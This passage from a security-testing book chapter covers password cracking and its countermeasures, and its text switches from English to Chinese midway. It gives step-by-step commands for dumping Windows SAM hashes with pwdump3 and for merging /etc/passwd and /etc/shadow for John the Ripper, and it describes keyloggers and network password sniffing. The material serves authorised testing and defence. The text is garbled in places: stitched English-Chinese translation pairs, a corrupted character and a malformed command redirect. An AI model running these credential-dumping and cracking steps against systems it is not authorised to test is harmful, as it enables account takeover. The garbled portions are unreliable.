To understand how the preceding password-cracking programs generally work, you need to understand how passwords are encrypted. Passwords typically are encrypted when they’re stored on a computer, using an encryption or one-way hash algorithm such as SHA2 or MD5. Then hashed passwords are represented as fixed-length encrypted strings that always represent the same passwords with exactly the same strings. These hashes are irreversible for all practical purposes, so in theory, passwords can never be decrypted. Furthermore, certain passwords, such as those in Linux, have a random value called a `*salt*` added to them to create a degree of randomness. This value prevents the same password used by two people from having the same hash value.

In Windows, after the password hashes are obtained, attackers can leverage an attack called `pass the hash` to send the hash rather than the actual password to the system for authentication. You can find a good article on using Metasploit and the `psexec` module for this purpose at [`https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/`](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

Password-cracking utilities take a set of known passwords and run them through a password-hashing algorithm. The resulting encrypted hashes are compared at lightning speed with the password hashes extracted from the original password database. When a match is found between the newly generated hash and the hash in the original database, the password has been cracked. The process is that simple.

Other password-cracking programs attempt to log on by using a predefined set of user IDs and passwords. This method is how many dictionary-based cracking tools work, such as Brutus ([`www.hoobie.net/brutus`](http://www.hoobie.net/brutus)) and SQLPing3 ([`www.sqlsecurity.com/downloads`](http://www.sqlsecurity.com/downloads)). I cover cracking web application and database passwords in chapters 15 and 16.

Passwords that are subjected to cracking tools eventually lose. You have access to the same tools as the bad guys. These tools can be used for both legitimate security assessments and malicious attacks. You want to find password weaknesses before the bad guys do. In this section, I show you some of my favorite methods for assessing Windows and Linux/Unix passwords.

When trying to crack passwords, the associated user accounts may be locked out, which could interrupt your users. Be careful if intruder lockout is enabled in your operating systems, databases, or applications. If lockout is enabled, you might lock out some or all computer/network accounts, resulting in a denial of service situation for your users.

#### Dictionary attacks

Dictionary attacks quickly compare a set of known dictionary-type words — including many common passwords — against a password database. This database is a text file with hundreds, if not thousands, of dictionary words, typically listed in alphabetical order. Suppose that you have a dictionary file that you downloaded from one of the sites in the following list. The English-dictionary file at the Purdue University site contains one word per line starting with `*10th, 1st*` all the way to `*zygote*.`

Many password-cracking utilities use a separate dictionary that you create or download from the Internet. Here are some popular sites that house dictionary files and other miscellaneous word lists:

*   `ftp://ftp.cerias.purdue.edu/pub/dict`

*   [`www.outpost9.com/files/WordLists.html`](http://www.outpost9.com/files/WordLists.html)

Don’t forget to use other language files as well, such as Spanish and Klingon.

Dictionary attacks are only as good as the dictionary files you supply to your password-cracking program. You can easily spend days or even weeks trying to crack passwords with a dictionary attack. If you don’t set a time limit or a similar expectation going in, you’ll likely find that dictionary cracking is a mere exercise in futility. Most dictionary attacks are good for weak (easily guessed) passwords. Some special dictionaries, however, have common misspellings or alternative spellings of words, such as `pa$$w0rd` (password) and `5ecur1ty` (security). Additionally, special dictionaries can contain non-English words and thematic words from religions, politics, or `*Star Trek*`.

#### Brute-force attacks

Brute-force attacks can crack practically any password, given sufficient time. Brute-force attacks try every combination of numbers, letters, and special characters until the password is discovered. Many password-cracking utilities let you specify such testing criteria as the character sets, password length to try, and known characters (for a mask attack). Sample Figure 8-1 shows some example brute-force password-cracking options.



FIGURE 8-1  Brute-force password-cracking options in Proactive Password Auditor.

A brute-force test can take quite a while, depending on the number of accounts, their associated password complexities, and the speed of the computer that’s running the cracking software. As powerful as brute-force testing can be, it can take forever to exhaust all possible password combinations, which isn’t practical in every situation.

Smart hackers attempt logins slowly or at random times so that the failed login attempts aren’t as predictable or obvious in the system log files. Some malicious users even call the IT help desk to attempt a reset of the account they just locked out. This social engineering technique could be a major issue, especially if the organization has no (or minimal) mechanisms in place to verify that locked-out users are who they say they are.

Can an expiring password deter a hacker’s attack and render password cracking software useless? Yes. After the password is changed, the cracking must start again if the hacker wants to test all the possible combinations. This scenario is one reason why it’s a good idea to change passwords periodically. Still, I’m not a big fan of forcing users to change their passwords often. Shortening the change interval can reduce the risk of passwords being cracked but can also be politically unfavorable in your business and end up creating the opposite of the effect you’re going for. You have to strike a balance among security, convenience, and usability. In many situations, I don’t think it’s unreasonable to require password changes every 6 to 12 months or (especially) after a suspected compromise. Keep in mind that there is a direct relationship between password change interval and password length. The longer the interval is the longer the password needs to be.


详尽的密码破解尝试通常是不必要的。大多数密码相当弱。即使是最小的密码要求，例如密码长度，也能在你的测试中发挥作用。你可能通过使用其他工具或通过网页浏览器发现安全策略信息。（参见 第 4 节 以获取用于测试操作系统安全性的工具和技术，以及 第 15 章 以获取测试网站和应用程序的信息。）如果你发现了这些密码策略信息，你可以将破解程序的参数配置得更明确，这通常会产生更快的结果。

#### 彩虹攻击

`rainbow` 密码攻击使用彩虹破解法对 LM、NTLM、Cisco PIX 和 MD5 等多种密码哈希进行更快速的破解，成功率极高（接近 100%）。彩虹攻击之所以能提高破解速度，是因为哈希在破解前已预先计算，无需像字典破解和暴力破解那样逐个生成。

与字典破解和暴力破解攻击不同，彩虹攻击无法用于破解无限长度的密码哈希。Microsoft LM 哈希的当前最大长度为 14 个字符，Windows Vista 和 7 哈希（也称为 NT 哈希）的最大长度为 16 个字符（基于字典的）。彩虹表可通过 ophcrack 站点（[`http://ophcrack.sourceforge.net`](http://ophcrack.sourceforge.net)）购买并下载。由于生成这些彩虹表需要*显著*的时间，因此存在长度限制。随着时间的推移，足够多的表将被创建。到那时，计算机和应用程序可能会采用不同的身份验证机制和哈希标准 —  — 包括一系列新的漏洞 —  — 来应对。从事此领域的 IT 专业人员的工作保障不断增长。

如果你拥有良好的彩虹表集合，例如通过 ophcrack 站点和 Project RainbowCrack（[`http://project-rainbowcrack.com`](http://project-rainbowcrack.com)）提供的，你可以在秒、分钟或小时内破解密码，而字典和暴力破解方法则需要数天、数周甚至数年。

#### 使用 pwdump3 和 John the Ripper 破解 Windows 密码

下面的步骤使用我两个最喜欢的工具来测试当前 Windows 系统上密码的安全性：

*   pwdump3（用于从 Windows SAM 数据库提取密码哈希）

*   John the Ripper（用于破解 Windows 以及 Linux/Unix 密码的哈希）

下面的测试需要你拥有 Windows 独立工作站或服务器的管理员访问权限：

1.  **在 Windows C 盘根目录下新建名为 `passwords` 的目录。**

2.  **如果你尚未拥有解压工具，请下载并安装一个：**

    7-Zip（[`https://www.7-zip.org`](https://www.7-zip.org)）是免费的解压工具。Windows 自带 zip 文件处理功能，但略显笨拙。

3.  **如果你尚未在系统中安装以下软件到 `passwords` 目录，请下载、解压并安装：**

    *   *pwdump3*：从 [`www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7`](http://www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7) 下载文件。

    *   *John the Ripper*：从 [`www.openwall.com/john`](http://www.openwall.com/john) 下载文件。

4.  **运行 pwdump3 并将其输出重定向到名为 `cracked.txt` 的文件：**

    `c:\passwords\pwdump3 >; cracked.txt`

    该文件捕获 John the Ripper 破解的 Windows SAM 密码哈希。Figure 8-2 展示了 `cracked.txt` 文件的内容，其中包含本地 Windows SAM 数据库的密码哈希。

5.  **运行 John the Ripper 对 Windows SAM 密码哈希执行以下命令，以显示破解后的密码：**

    `c:\passwords\john cracked.txt`

    这一过程（如 Figure 8-3 所示）的耗时可能从几秒到数天，具体取决于用户数量和密码复杂度。我的 Windows 示例仅用五秒即可破解五个弱密码。



 FIGURE 8-2:  pwdump3 输出。



 FIGURE 8-3:  使用 John the Ripper 破解密码文件哈希。

#### 使用 John the Ripper 破解 Unix/Linux 密码

John the Ripper 也能破解 Unix/Linux 密码。你需要 root 访问权限以及密码文件（`/etc/passwd`）和影子密码文件（`/etc/shadow`）。以下步骤用于破解 Unix/Linux 密码：

1.  **从** [`www.openwall.com/john`](http://www.openwall.com/john) **下载 Unix 源码文件。**

2.  **使用当前文件名执行以下命令解压程序：**

    `[root@localhost kbeaver]#tar -zxf john-1.8.0.tar.xz`

    你也可以在 Windows 系统上使用 John the Ripper 的 Windows/DOS 版本来破解 Unix 或 Linux 密码。

3.  **切换到在解压时创建的 `/src` 目录，并输入以下命令：**

    `make generic`

4.  **切换到 `/run` 目录，并输入以下命令，使用 `unshadow` 程序将 `passwd` 和 `shadow` 文件合并并复制到 `cracked.txt` 文件：**

    `./unshadow /etc/passwd /etc/shadow > cracked.txt`

     `unshadow` 过程对所有 Unix 变体均不适用。

5.  **输入以下命令启动破解过程：**

    `./john cracked.txt`

    当 John the Ripper 完成（可能需要一些时间）后，输出类似于前面 Windows 过程的结果（参考 Figure 8-3）。

完成上述 Windows 或 Unix/Linux 步骤后，你可以强制用户更改不符合特定密码策略要求的密码，创建新的密码策略，或利用该信息更新安全意识计划。总之，采取行动。

在处理密码破解结果时请小心。你会产生问责问题，因为不止一个人现在知道这些密码。始终将他人的密码信息视为严格保密。如果你在测试系统上存储密码，请确保该系统额外安全。如果你使用笔记本电脑，加密硬盘是最佳防护措施。

### 破解受密码保护的文件

你是否想知道当用户将密码保护的文档、电子表格和压缩文件发送到“虚空”时，它们的脆弱性如何？别再猜测了。一些优秀的工具可以展示密码破解有多容易。

#### 破解文件

大多数受密码保护的文件可以在几秒钟或几分钟内被破解。你可以向用户和管理层展示这一“哇”因素的安全漏洞。下面是一个可能在现实中发生的假设场景：

1.  你的首席财务官（CFO）想将一些机密财务信息以 Microsoft Excel 电子表格的形式发送给公司董事会成员。

2.  她在 Excel 保存文件时为其设置了密码。

3.  为了更安全，她使用 WinZip 压缩文件并再次设置密码，使其“更安全”。

4.  CFO 将电子表格作为电子邮件附件发送，假设邮件能安全送达。


金融顾问的网络具有内容过滤功能，会监控 incoming emails 的关键词和文件附件。不幸的是，金融公司的网络管理员正在查看内容过滤系统，看看有什么来了。

5. 这位 rogue 网络管理员发现了带有机密附件的邮件，保存了附件，并意识到它是受密码保护的。

6. 网络管理员记得一个非常好的密码破解工具——Advanced Archive Password Recovery（[`www.elcomsoft.com/archpr.html`](http://www.elcomsoft.com/archpr.html)），他于是使用它来破解密码。

破解受密码保护的文件就这么简单！现在，这位 rogue 网络管理员只需将机密表格转发给他的伙伴或公司的竞争对手即可。

如果你在 Advanced Archive Password Recovery 中仔细选择正确的选项，你可以大幅缩短测试时间。例如，如果你知道密码少于五个字符，或者全是小写字母，你可以将破解时间减半。

我建议在使用内容过滤或网络分析工具捕获的文件上进行这些文件密码破解测试。这种方法是确定用户是否遵守政策并使用足够强的密码来保护他们传输的敏感信息的好方法。

#### Countermeasures

对抗弱文件密码保护的最佳防御是要求用户使用更强的文件保护方式，例如 Pretty Good Privacy (PGP) 或 WinZip 内置的 Advanced Encryption Standard (AES) 加密（必要时）。理想情况下，你不想依赖用户决定如何保护敏感信息，但依赖他们比什么都不做要好。强调文件加密机制（如受密码保护的 zip 文件）只有在用户保持密码机密，且 never 将其在不安全的明文（如单独的电子邮件）中传输或存储时才是安全的。

如果你担心不安全的电子邮件传输，可以考虑使用内容过滤系统或数据防泄漏系统，阻止所有在电子邮件服务器上未受保护的出站邮件附件。

### 了解其他破解密码的方法

多年来，我在技术和社会工程方面发现了其他破解（或捕获）密码的方法。

#### 键盘记录

一种最佳的捕获密码的技术是远程 *键盘记录*——使用软件或硬件记录键盘输入。

请小心使用键盘记录。即使出于良好意图，如果操作不当，监控员工也会带来各种法律问题。与你的法律顾问讨论你将要做的事情，请求她的指导，并获得上级管理层的批准。

#### LOGGING TOOLS

使用键盘记录工具，你可以检查受监控的应用程序的日志，看看人们使用的密码：

* 键盘记录应用程序可以安装在被监控的计算机上。我推荐 Spector 360（SpectorSoft）[`www.spector360.com`](http://www.spector360.com)。网络上有大量这类工具。

* 硬件键盘记录工具，如 KeyGhost（[`www.keyghost.com`](http://www.keyghost.com)），插在键盘和计算机之间或直接替代键盘。

在共享计算机上安装键盘记录工具可以捕获所有登录该计算机的用户的密码。

黑客安装键盘记录软件的潜在风险是另一个确保用户不下载和安装随意的分享软件或打开未请求邮件附件的原因。可以通过在 Windows 本地或组策略中设置适当的用户权限来锁定工作站，或者使用商业锁定程序，如 Fortres 101（[`www.fortresgrand.com`](http://www.fortresgrand.com)）或 Deep Freeze Enterprise（[`www.faronics.com/products/deep-freeze/enterprise`](http://www.faronics.com/products/deep-freeze/enterprise)），适用于 Windows、Linux 和 macOS X。另一种仍属于此类技术的是 Carbon Black 的“正向安全”白名单应用——Cb Protection（[`https://www.carbonblack.com/products/cb-protection`](https://www.carbonblack.com/products/cb-protection)），它允许你配置在任何系统上可以运行的可执行文件。它用于对抗高级恶意软件，但也可以用于此类情况。

#### 弱密码存储

许多老旧和独立应用程序——如电子邮件、�ialk 网络连接和会计软件——会本地存储密码，这使它们容易受到密码破解的攻击。通过基本的文本搜索，我发现这些机器的本地硬盘上存储了明文密码。你可以使用 FileLocator Pro（[`https://www.mythicsoft.com`](https://www.mythicsoft.com)）进一步自动化此过程。我在第 16 章（Chapter 16）中介绍了文件和相关存储的弱点。

#### SEARCHING

你可以使用你喜欢的文本搜索工具——如 Windows 搜索功能、`findstr` 或 `grep`——在计算机的驱动器上搜索 *password* 或 *passwd*。你可能会惊讶于系统上存储的内容。有些程序甚至会将密码写入磁盘或保留在内存中。

弱密码存储是黑客的梦想。如果能防止它就更好。但我并不是说你应该马上跑去使用云端密码管理器——正如我们所看到的，那些系统也会被黑客入侵！

#### COUNTERMEASURES

消除弱密码存储的唯一可靠方法是只使用能够安全存储密码的应用程序。虽然这在实际操作中可能不切实际，但它是确保密码安全的唯一保证。另一种做法是指示用户在被询问时不要存储密码。

在升级应用程序之前，联系软件供应商查看它如何管理密码，或寻找第三方解决方案。

#### 网络分析仪

网络分析仪会嗅探网络中传输的数据包，这正是攻击者在获得控制某台计算机、接入无线网络或获得物理网络访问权限后会做的事。如果他们获得物理访问，可以在墙上寻找网络插口并直接插入。

#### TESTING

Figure 8-4 展示了网络分析仪视角下清晰可见的密码。Cain & Abel（[`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)）可以在几小时内窃取数千个网络中的密码。左侧窗格显示，这些明文密码弱点可适用于 FTP、Web、Telnet 等多种协议。（实际的用户名和密码已模糊处理，以保护隐私。）



FIGURE 8-4: 使用 Cain & Abel 捕获网络中传输的密码。

如果流量没有通过某种加密链路（如虚拟私网、Secure Shell 或 Secure Sockets Layer）进行隧道化，则容易受到攻击。


Cain & Abel 是一个密码破解工具，同时也具备网络分析功能。你也可以使用普通的网络分析仪，例如商业产品 Omnipeek ([`https://www.savvius.com`](https://www.savvius.com)) 和 CommView ([`https://www.tamos.com/products/commview`](https://www.tamos.com/products/commview))，以及免费开源程序 Wireshark ([`https://www.wireshark.org`](https://www.wireshark.org))。使用网络分析仪，你可以以多种方式搜索密码流量。例如，要捕获 POP3 密码流量，可以设置过滤器和触发器来搜索 PASS 命令。当网络分析仪在数据包中看到 PASS 命令时，它会捕获该特定数据。

网络分析仪要求你在网络集线器的某个段上捕获数据，或通过交换机的监视/镜像/span 端口进行捕获。否则，你只能看到自己的数据，看不到网络上其他人的数据。请查看交换机的用户指南，查看是否有监视或镜像端口以及如何配置它。你可以将网络分析仪连接到防火墙公共侧的集线器上。你只能捕获进入或离开网络的数据包 —  — 而不是内部流量。我在第 9 章（Chapter 9）中详细介绍了这种网络基础设施攻击。

#### COUNTERMEASURES

以下是针对网络分析仪攻击的一些有效防护措施：

*   **在你的网络中使用交换机而非集线器。** 以太网集线器已属于历史，但偶尔仍会看到它们在使用。如果必须在网络段上使用集线器，像 sniffdet（适用于基于 Unix/Linux 的系统）和 PromiscDetect（适用于 Windows）这样的程序可以检测到网卡是否处于 *promiscuous mode*（接受所有数据包，无论其目标是否为本机）。网卡处于 promiscuous mode 表示可能在网络上运行着网络分析仪。

*   **确保非受监督区域（如空置的大堂或培训室）没有活动的网络连接。** 只需一条以太网端口，就能让人访问你的内部网络。

*   **不要让没有业务需求的人员获得对你的交换机或防火墙公共侧网络连接的物理访问。** 通过物理访问，黑客可以连接到交换机的监视端口或窃听防火墙外的非交换网络段，然后捕获数据包。

交换机并不能提供完整的安全，因为它们易受 ARP 中毒攻击的影响，我在 Chapter 9 中有所介绍。

#### Weak BIOS passwords

大多数计算机的 BIOS（基本输入/输出系统）设置允许使用电源开启密码和/或设置密码来保护存储在 CMOS 芯片中的硬件设置。以下是绕过这些密码的几种方法：

*   通常可以通过拔掉 CMOS 电池或在主板上更改跳线来重置这些密码。

*   网络上有 BIOS 密码破解工具，可供计算机制造商和用户下载使用。

*   如果最终目标是获取硬盘，你可以将硬盘从当前计算机中取出并安装到另一台机器上，这样就可以绕过 BIOS/电源开启密码。此技术证明了 BIOS/电源开启密码对丢失或被盗笔记本电脑的防护效果并不强。

想了解各类供应商设备的默认系统密码列表，请访问 [`https://www.cirt.net/passwords`](https://www.cirt.net/passwords)。

根据你的硬件配置，黑客和对应的防护措施种类繁多。如果你计划破解自己的 BIOS 密码，请查阅用户手册，或参考我在此处撰写的 BIOS 密码破解指南（[`searchenterprisedesktop.techtarget.com/tutorial/BIOS-password-hacking`](http://searchenterprisedesktop.techtarget.com/tutorial/BIOS-password-hacking)）。如果你的首要目标是保护硬盘上的数据，全盘加密（whole disk）是最佳选择。我在 第 11 章 中深入探讨了移动相关的密码破解。好消息是，过去五年左右的新型计算机使用了新型的统一可扩展固件接口（UEFI），相较于传统 BIOS，它对启动级别的破解尝试更具韧性。不过，弱密码仍可能导致系统被利用。

#### Weak passwords in limbo

恶意分子经常利用网络管理员或客服在刚创建或重置用户账户时的弱密码。新账户可能用于新员工或安全测试，也可能因用户忘记密码或因多次失败登录而被锁定而需要重置。

#### WEAKNESSES

以下是用户账户可能面临的弱点：

*   重置用户账户时，通常会分配一个易破解或广为人知的密码（如用户姓名或单词 *password*）。重置后到改密之间的时间窗口是攻击的黄金机会。

*   许多系统存在默认账户或未使用的账户，这些账户的密码较弱甚至没有密码。它们是攻击的首要目标。

#### COUNTERMEASURES

针对“临时弱密码”攻击的最佳防护措施是建立严格的帮助台政策和流程，确保在新账户创建和密码重置过程中不会出现弱密码。

*   要求用户在电话中与帮助台沟通，或让帮助台成员在用户的工作站前进行重置。

*   强制用户在登录后立即更改密码。

*   如需更高安全性，可采用更强的认证方式，如挑战/响应问题、智能卡或数字证书。

*   通过网络上的自助工具自动化密码重置功能，让用户能够自行处理大部分密码问题，而无需他人协助。

我在第 11 章（Chapter 11）中详细介绍了移动相关的密码破解，在第 15 章（Chapter 15）中介绍了网站/应用密码破解。

### General Password Cracking Countermeasures

针对密码破解的通用防护措施：一个系统的密码通常也适用于多个系统，因为许多人会在多个系统上使用相同或相似的密码。因此，你可能希望指导用户为不同系统（尤其是保护敏感信息的系统）创建不同的密码。其唯一的缺点是用户需要记忆多个密码，这可能导致他们写下密码，从而抵消安全优势。

强密码很重要，但必须在安全性和便利性之间取得平衡。你不能指望用户记住那些极其复杂且需要频繁更改的密码，但也不能容忍弱密码或没有密码。制定一个强密码策略并配套标准 —  — 最好要求使用长而强的口语化密码（易记却极难破解的词组组合），且只需每年更改一次或两次。

### Storing passwords

如果必须在用户能够记忆的弱密码和用户必须记录的强密码之间做出选择，我建议让用户记录密码并妥善保存。训练用户将书面密码存放在安全的地方 —  — 而不是放在键盘上或在难以破解的受密码保护文件（如电子表格）中。用户应将书面密码存放在以下任一位置：


`A locked file cabinet or office safe` -> `一个锁着的文件柜或办公室保险箱`

`A disk secured with full (whole) disk encryption, which can prevent an intruder from accessing the operating system and passwords stored on the system. (Just know that this technique isn’t foolproof, as I outline in Chapter 11.)` -> `一张使用全盘加密（完整磁盘加密）的磁盘，它可以防止入侵者访问系统上的操作系统和存储的密码。（只需知道，这种技术并非万无一失，如我在 第 11 章中所述。）`

`A secure password management tool such as LastPass ([`www.lastpass.com`](https://www.lastpass.com)) or the open-source program Password Safe ([`pwsafe.org`](https://pwsafe.org))` -> `一个安全的密码管理工具，如 LastPass（https://www.lastpass.com）或开源程序 Password Safe（https://pwsafe.org）。`

`Again, as I mention earlier, applications such as these aren’t impervious to attack, so be careful.` -> `再次提醒，像这些应用程序并非对攻击免疫，所以请小心。`

Don’t write passwords on sticky notes! People joke about this practice, but it *still* happens a lot, and it’s not good for business! -> 不要把密码写在便签纸上！虽然人们嘲笑这种做法，但它*仍然*经常发生，而且对商业不利！

### Creating password policies

As an IT or security professional, you should show users the importance of securing their passwords. Here are some tips on how to do that:

*   Demonstrate how to create secure passwords. Refer to passwords as *passphrases,* because people tend to take *passwords* literally and use only words, which can be less secure. -> *演示如何创建安全的密码。将密码称为*passphrases*，因为人们倾向于字面理解*passwords*，只使用单词，这可能安全性较低。*

*   Show what can happen when weak passwords are used or passwords are shared. -> *展示使用弱密码或共享密码可能带来的后果。*

*   Diligently build user awareness of social engineering attacks. -> *认真建立用户对社交工程攻击的认识。*

Enforce (or at least encourage the use of) a strong password-creation policy that includes the following criteria:

*   **Use uppercase and lowercase letters, special characters, and numbers.** Never use only numbers. Such passwords can be cracked quickly. -> **使用大写和小写字母、特殊字符和数字。** 切勿只使用数字。这类密码可以被快速破解。

*   **Misspell words or create acronyms from a quote or a sentence.** *ASCII*, for example, is an acronym for *American Standard Code for Information Interchange* that can be used as part of a password. -> **拼写错误单词或从引语或句子中创建缩写。** 例如，*ASCII* 是 *American Standard Code for Information Interchange* 的缩写，可以作为密码的一部分。

*   **Use punctuation characters to separate words or acronyms.** -> **使用标点符号分隔单词或缩写。**

*   **Change passwords every 6 to 12 months or immediately if they’re suspected of being compromised.** Any change more frequent introduces an inconvenience that serves only to create more vulnerabilities. -> **每 6 到 12 个月更改一次密码，或在怀疑其被破坏时立即更改。** 更频繁的更改只会带来不便，并增加漏洞。

*   **Use different passwords for each system.** This practice is especially important for network infrastructure hosts, such as servers, firewalls, and routers. It’s okay to use similar passwords; just make them slightly different for each type of system, such as *SummerInTheSouth-Win10* for Windows systems and *Linux*+*SummerInTheSouth* for Linux systems. -> **为每个系统使用不同的密码。** 这对于网络基础设施主机（如服务器、防火墙和路由器）尤其重要。可以使用相似的密码，但要略微调整以适应不同类型的系统，例如 *SummerInTheSouth-Win10* 用于 Windows 系统，*Linux*+*SummerInTheSouth* 用于 Linux 系统。

*   **Use variable-length passwords.** This trick can throw off attackers because they won’t know the required minimum or maximum length of passwords and must try all password-length combinations. -> **使用可变长度密码。** 这种技巧可以让攻击者困惑，因为他们不知道密码的最小或最大长度，必须尝试所有可能的长度组合。

*   **Don’t use common slang words or words that are in a dictionary.** -> **不要使用常见的俚语或词典中的单词。**

*   **Don’t rely completely on similar-looking characters, such as *3* instead of *E, 5* instead of *S,* or *!* instead of *1.*** Password-cracking programs and dictionaries are available to help check for this practice. -> **不要完全依赖外观相似的字符，例如 *3* 代替 *E, 5* 代替 *S,* 或 *!* 代替 *1.*** 密码破解程序和词典可用于检查此类做法。

*   **Don’t reuse the same password within at least four to five password changes.** -> **不要在至少四到五次密码更改内重复使用同一密码。**

*   **Use password-protected screen savers.** Unlocked screens are a great way for systems to be compromised. You could have the strongest passwords and best full disk encryption in the world, but none of that matters if the computer is left unattended with the screen unlocked. -> **使用密码保护的屏幕保护程序。** 未锁定的屏幕是系统被入侵的常见方式。即使你拥有最强的密码和最佳的全盘加密，如果电脑未锁定而离开，这些也都无济于事。

*   **Don’t share passwords.** To each his or her own! -> **不要共享密码。** 各自为政！

*   **Avoid storing user passwords in an unsecured central location, such as an unprotected spreadsheet on a hard drive.** This practice is an invitation to disaster. Use a password manager to store user passwords if you’re willing to do so. (I’m not yet.) -> **避免在不安全的中央位置（如未受保护的硬盘上的电子表格）存储用户密码。** 如果你愿意，可以使用密码管理器来存储用户密码。（我暂时还不做。）

### Taking other countermeasures

Here are some other password hacking countermeasures that I recommend:

*   **Enable security auditing to help monitor and track password attacks.** You can’t possibly manage this part of your security program if you’re not looking out for attacks. -> **启用安全审计，以帮助监控和跟踪密码攻击。** 如果你不主动关注攻击，就无法管理安全程序的这一部分。

*   **Test your applications to make sure they aren’t storing passwords indefinitely in memory or writing them to disk.** A good tool for this is WinHex ([`www.winhex.com/winhex/index-m.html`](http://www.winhex.com/winhex/index-m.html)). I’ve used this tool to search a computer’s memory for keywords such as password, pass=,* login, and so on, and have come up with some passwords that the developers thought were cleared from memory. -> **测试你的应用程序，确保它们没有在内存中无限期存储密码或将其写入磁盘。** WinHex（http://www.winhex.com/winhex/index-m.html）是一个良好的工具。我曾使用该工具在计算机内存中搜索诸如 password、pass=、* login 等关键词，并找到了开发者认为已被清除的密码。

    Some password-cracking Trojan-horse applications are transmitted through worms or simple email attachments. Such malware can be lethal to your password-protection mechanisms if they’re installed on your systems. The best defense is malware protection or whitelisting software from Webroot, McAfee, or Bit9. -> 一些密码破解特洛伊木马应用程序通过蠕虫或简单的电子邮件附件传播。如果它们安装在你的系统上，这些恶意软件可能会破坏你的密码保护机制。最佳防御是使用 Webroot、McAfee 或 Bit9 的恶意软件防护或白名单软件。

*   **Keep your systems patched.** Passwords are reset or compromised during buffer overflows or other denial of service (DoS) conditions. -> **保持系统补丁更新。** 在缓冲区溢出或其他拒绝服务（DoS）条件下，密码可能被重置或被破坏。

*   **Know your user IDs.** If an account has never been used, delete or disable the account until it’s needed. You can determine unused accounts by manual inspection or by using a tool such as DumpSec (https://[`www.systemtools.com/somarsoft/?somarsoft.com`](http://www.systemtools.com/somarsoft/?somarsoft.com)), a tool that can enumerate the Windows operating system and gather user IDs and other information. -> **了解你的用户 ID。** 如果账户从未使用，请在需要时删除或禁用该账户。你可以通过手动检查或使用 DumpSec（http://www.systemtools.com/somarsoft/?somarsoft.com）等工具来确定未使用的账户，该工具可以枚举 Windows 操作系统并获取用户 ID 等信息。

As the security manager in your organization, you can enable account lockout to prevent password-cracking attempts. *Account lockout* is the ability to lock user accounts for a certain time after a certain number of failed login attempts has occurred. Most operating systems (and some applications) have this capability. Don’t set it too low (fewer than five failed logins), and don’t set it too high to give a malicious user a greater chance of breaking in. Somewhere between 5 and 50 may work for you. I usually recommend a setting of around 10 or 15. Consider the following when configuring account lockout on your systems:

*   To use account lockout to prevent any possibilities of a user DoS condition, require two different passwords, and don’t set a lockout time for the first one if that feature is available in your operating system. -> 为了使用账户锁定防止用户 DoS 条件的可能性，要求使用两种不同的密码，并且如果操作系统支持，不要为第一次尝试设置锁定时间。

*   If you permit autoreset of the account after a certain period — often referred to as *intruder lockout* — don’t set a short time period. Thirty minutes often works well. -> 如果你允许在一定时间后重置账户（通常称为 *入侵者锁定*），不要设置过短的时间段。30 分钟通常效果良好。

A failed login counter can increase password security and minimize the overall effects of account lockout if the account experiences an automated attack. A login counter can force a password change after a certain number of failed attempts. If the number of failed login attempts is high and has occurred over a short period, the account has likely experienced an automated password attack. -> 失败登录计数器可以提高密码安全性，并减少自动攻击对账户锁定的整体影响。登录计数器可以在达到一定次数的失败尝试后强制更改密码。如果失败登录次数很多且在短时间内发生，账户很可能经历了自动密码攻击。

Other password-protection countermeasures include:

*   **Stronger authentication methods:** Examples are challenge/response, smart cards, tokens, biometrics, and digital certificates. -> **更强的认证方法：** 例如挑战/响应、智能卡、令牌、生物特征和数字证书。

*   **Automated password reset:** This functionality lets users manage most of their password problems without getting others involved. Otherwise, this support issue becomes expensive, especially for larger organizations. -> **自动密码重置：** 此功能让用户无需他人参与即可管理大部分密码问题。否则，此支持问题成本高昂，尤其是对大型组织而言。

*   **Password-protected system BIOS:** This countermeasure is especially important on servers and laptops that are susceptible to physical security threats and vulnerabilities. -> **密码保护的系统 BIOS：** 这一措施在服务器和笔记本电脑上尤其重要，因为这些设备易受物理安全威胁和漏洞的影响。

## Securing Operating Systems

You can implement various operating-system security measures to ensure that passwords are protected.

Regularly perform these low-tech and high-tech password-cracking tests to make sure that your systems are as secure as possible — perhaps as part of a monthly, quarterly, or biannual audit of local and domain passwords. -> 定期进行这些低技术和高技术密码破解测试，以确保你的系统尽可能安全 —  — 也许作为本地和域密码的月度、季度或半年度审计的一部分。

## Windows

The following countermeasures can help prevent password hacks on Windows systems:

*   Some Windows passwords can be gleaned by reading the clear text or crackable cipher text from the Windows Registry. Secure your registries by doing the following: -> 有些 Windows 密码可以通过读取 Windows 注册表中的明文或可破解的密码文本获取。通过以下方式保护你的注册表：

    *   Allow only administrator access. -> 仅允许管理员访问。


